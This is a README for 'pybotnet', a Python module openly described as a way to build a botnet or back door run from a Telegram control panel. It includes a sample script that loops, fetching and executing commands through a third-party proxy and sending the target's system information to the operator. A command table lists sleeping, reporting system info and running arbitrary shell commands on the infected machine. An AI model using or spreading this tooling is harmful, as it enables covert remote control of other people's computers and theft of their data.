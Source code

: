 # pybotnet version 0.07

A module for building botnet or back door with Python and Telegram control panel
- [x] windows
- [x] linux
- [ ] mac

### See the [TODO List](https://github.com/onionj/pybotnet/blob/master/TODOLIST.MD) if you want to *help* me <3

### Features:
* get command from telegram and execute scripts 
* get command and send message by third party proxy
* send target info 

for more features see command list ↓
 


### Requirements:

* Python 3.6 or higher.
```
pip install -r requirements.txt
```

### Sample:

```python
import pybotnet
import time

TELEGRAM_TOKEN = '1468299500:AAHsvEH-5VyIfWYMzZcYxF_e00000000000'
ADMIN_CHAT_ID = '12345678910'
delay = 60

bot = pybotnet.PyBotNet(TELEGRAM_TOKEN, ADMIN_CHAT_ID, show_log=True, send_system_data=True)

while True:
    bot.get_and_execute_scripts_by_third_party_proxy()
    time.sleep(delay)

```

### Commmands:
Send this message to your api bot in telegram, using the admin account.

COMMAND | DO THIS | Minimum version required |
--------|---------|--------------------------|
do_sleep \<scconds> \<message | (Optional)> |  \<if message != none : print(message) > ; time.sleep(seccond) | 0.05 |
get_info | return system info | 0.06 |
cmd \<system command> | run system command in shell or cmd (Be careful not to give endless command)| 007 |

